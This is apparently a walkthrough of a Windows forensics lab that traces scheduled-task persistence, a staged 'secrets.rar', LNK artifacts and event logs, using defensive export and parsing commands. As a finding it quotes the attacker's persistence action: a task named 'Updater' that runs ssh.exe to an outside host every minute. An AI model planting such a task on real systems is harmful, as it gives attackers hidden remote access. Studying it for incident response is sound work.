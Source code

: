 # Task 1 — Introduction
```markdown

**Case Date:** 2025-03-29  
**Victim User:** Aashir

Scope includes Windows persistence, recently accessed items, process/file execution evidence, Windows event logs, and timeline analysis.
```

---

# Task 3 — Timeline Explorer for Visualization

```markdown

**Tools:** Eric Zimmerman's Timeline Explorer  
**Artifacts:** CSV exports from LNK parsing, task XML timestamps, event logs

### Steps
1. Parse LNK files (see Task 5) to CSV.
2. Import CSV into **Timeline Explorer** and align on local time.
3. Correlate RAR and Scheduled Task creation windows.

### Outcome
- Confirmed RAR activity shortly before Scheduled Task creation.
```

---

# Task 4 — Investigating Persistence (Scheduled Tasks)

````markdown

**Goal:** Identify persistence via Windows Task Scheduler.

### GUI Method
- Open **Task Scheduler** → `Task Scheduler Library`
- Inspect properties of suspicious task (e.g., **Updater**)
- Check **Actions** → `ssh.exe attacker@192.168.1.4` (example)

### Disk Method
- Navigate: `C:\\Windows\\System32\\Tasks\\`
- Open `Updater` (XML). Look for `<Exec><Command>` and `<Arguments>`

### CLI/Export
```powershell
# Export a task's XML to Evidence
$taskName = 'Updater'
$dest = "$(Resolve-Path .)\\Evidence\\Updater-Task.xml"
schtasks /query /tn $taskName /xml > $dest
````

## Findings

* **Malicious Task Name:** `Updater`
* **Action:** `C:\\Windows\\System32\\OpenSSH\\ssh.exe attacker@192.168.1.4`
* **Interval:** every 1 minute (trigger)

---

# Task 5 — Investigating Recently Accessed Files (LNK)
```markdown

**Artifact Path:** `C:\\Users\\Administrator\\AppData\\Roaming\\Microsoft\\Windows\\Recent Items`

### Parse LNK with LECmd
```cmd
cd "C:\\Users\\Administrator\\Desktop\\Forensics Tools\\LECmd"
LECmd.exe -d C:\\Users\\Administrator\\AppData\\Roaming\\Microsoft\\Windows\\Recent --csvf Parsed-LNK.csv --csv C:\\Users\\Administrator\\Desktop
````

Move `Parsed-LNK.csv` to `/Evidence/`.

### Review in Timeline Explorer

* Columns of interest: **Target Created** (file), **Source Created** (LNK)

### Findings

* **RAR File Name:** `secrets.rar`
* **Target Created (file creation):** `2022-09-30 10:27:20`
* **Source Created (lnk creation):** `≈ 10:27:30`

---

# Task 6 — Investigating File Execution
```markdown

**Approaches:**
- Shimcache/Amcache (if provided)
- Prefetch (if enabled)
- SRUM/RecentFileCache.bcf (context dependent)
- Event Logs: `Microsoft-Windows-Security-Mitigations` and `Sysmon` (if present)

**Goal:** Link execution of ssh.exe and any staging/exfil tools.
````

---

# Task 7 — The Dig of Executable

```markdown

Investigate metadata & reputation for binaries observed (e.g., ssh.exe invocation chain, any droppers or scripts).  
Capture hashes, signer info, VT/OSINT (do not upload sensitive corp files externally unless approved).
```

---

# Task 8 — Windows Event Log Analysis

````markdown

**Key IDs:**
- **4698** — Scheduled task created
- **4702** — Scheduled task updated
- **4688** — Process creation (CommandLine shows ssh target)
- **1102** — Audit log cleared (defense evasion)
- **7036** — Service state changes (defender-related)

### Export Examples
```cmd
wevtutil epl Security Evidence\Security.evtx /q:"*[System[(EventID=4698 or EventID=4702 or EventID=4688)]]"
wevtutil epl Microsoft-Windows-TaskScheduler/Operational Evidence\TaskScheduler.evtx
````

### What to Look For

* XML `EventData` → TaskName, Author, Command, Arguments
* Correlate timestamps with LNK & task creation

---

# Task 9 — Chronological Order of Attack

```markdown

1. **10:27:20** — `secrets.rar` created (user profile Recent Items LNK points to it)
2. **10:27:XX** — LNK created for the RAR (user interaction)
3. **10:29:00** — Scheduled Task `Updater` created to run every minute
4. Repeated **SSH attempts** to `192.168.1.4` observed and blocked
````

---
